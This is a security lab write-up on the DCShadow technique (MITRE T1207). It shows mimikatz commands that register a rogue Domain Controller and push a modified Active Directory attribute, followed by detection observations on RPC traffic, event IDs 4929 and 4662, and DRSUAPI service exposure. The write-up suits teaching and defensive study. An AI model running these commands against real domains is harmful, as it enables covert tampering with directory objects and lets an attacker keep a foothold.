 ```yaml
---
description: Defense Evasion
---
```


# T1207: DCShadow

DCShadow allows an attacker with enough privileges to create a rogue Domain Controller and push changes to the DC Active Directory objects.

## Execution

For this lab, two shells are required, one running with `SYSTEM` privileges and another one is a domain member that is in `Domain admins` group:

![](../.gitbook/assets/dcshadow-privileges.png)

In this lab, I will be trying to update the AD object of a computer `pc-w10$`. A quick way to see some of its associated properties can be achieved with the following powershell. Note the `badpwcount` property which we will try to change with DCShadow:

```csharp
PS c:\> ([adsisearcher]"(&(objectCategory=Computer)(name=pc-w10))").Findall().Properties
```

![](../.gitbook/assets/dcshadow-computer-properties.png)

Let's change the value to 9999:

{% code-tabs %}
{% code-tabs-item title="mimikatz@NT/SYSTEM console" %}
```csharp
mimikatz # lsadump::dcshadow /object:pc-w10$ /attribute:badpwdcount /value=9999
```
{% endcode-tabs-item %}
{% endcode-tabs %}

and push the changes to the primary Domain Controller `DC-MANTVYDAS`:

{% code-tabs %}
{% code-tabs-item title="mimikatz@Domain Admin console" %}
```csharp
lsadump::dcshadow /push
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below are the screenshots of the above commands and their outputs as well as the result, indicating the `badpwcount`value getting changed to 9999:

![](../.gitbook/assets/dcshadow-computer-properties-changed.png)

## Observations

As suggested by Vincent Le Toux who co-presented the [DCShadow](https://www.youtube.com/watch?v=KILnU4FhQbc), in order to detect the rogue activity, you could monitor the network traffic and suspect any non-DC hosts \(our case it is the PC-W10$ with `10.0.0.7`\) issuing RCP requests to DCs \(our case DC-MANTVYDAS with `10.0.0.6`\) as seen below:

![](../.gitbook/assets/dcshadow-traffic.png)

Same for the logs, if you see a non-DC host causing the DC to log a `4929` event \(Detailed Directory Service Replication\), you may want to investigate what else was happening on that non-DC system at that time:

![](../.gitbook/assets/dcshadow-logs.png)

Current implementation of DCShadow in mimikatz creates a new DC and deletes its associated objects when the push is complete in a short time span and this pattern could potentially be used to trigger an alert, since creation of a new DC, related object modifications and their deletion all happening in 1-2 seconds timeframe sound anomalous. Events `4662` may be helpful for identifying this:

![](../.gitbook/assets/dcshadow-createobject.png)

![](../.gitbook/assets/dcshadow-delete1.png)

![](../.gitbook/assets/dcshadow-delete2.png)

Per [Luc Delsalle](https://blog.alsid.eu/@lucd?source=post_header_lockup)'s post on DCShadow explanation, one other suggestion for detecting rogue DCs is the idea that the computers that expose an RPC service with a GUID of `E3514235–4B06–11D1-AB04–00C04FC2DCD2`, but do not belong to a `Domain Controllers` Organizational Unit, should be investigated. 

We see that our suspicious computer exposes the service:

![](../.gitbook/assets/dcshadow-services.png)

..but does not belong to a `Domain Controllers` OU:

```csharp
([adsisearcher]"(&(objectCategory=computer)(name=pc-w10))").Findall().Properties.distinguishedname
# or
(Get-ADComputer pc-w10).DistinguishedName
```

![Outputs for computer NOT belonging to DC OU and one belonging, respecitvely](../.gitbook/assets/dcshadow-ou-dc.png)

Below are the resources related to DCShadow attack. Note that there is also a link to youtube by a security company Alsid, showing how to dynamically detect DCShadow, so please watch it.

{% embed url="https://attack.mitre.org/wiki/Technique/T1207" %}

{% embed url="https://www.dcshadow.com/" %}

{% embed url="https://www.youtube.com/watch?v=KILnU4FhQbc" %}

{% embed url="https://www.youtube.com/watch?v=yWFUKwZaT\_4" caption="Dynamic Detection of DCShadow" %}

{% embed url="https://github.com/AlsidOfficial/UncoverDCShadow" %}

{% embed url="http://www.labofapenetrationtester.com/2018/04/dcshadow.html" %}

{% embed url="https://blog.alsid.eu/dcshadow-explained-4510f52fc19d" %}

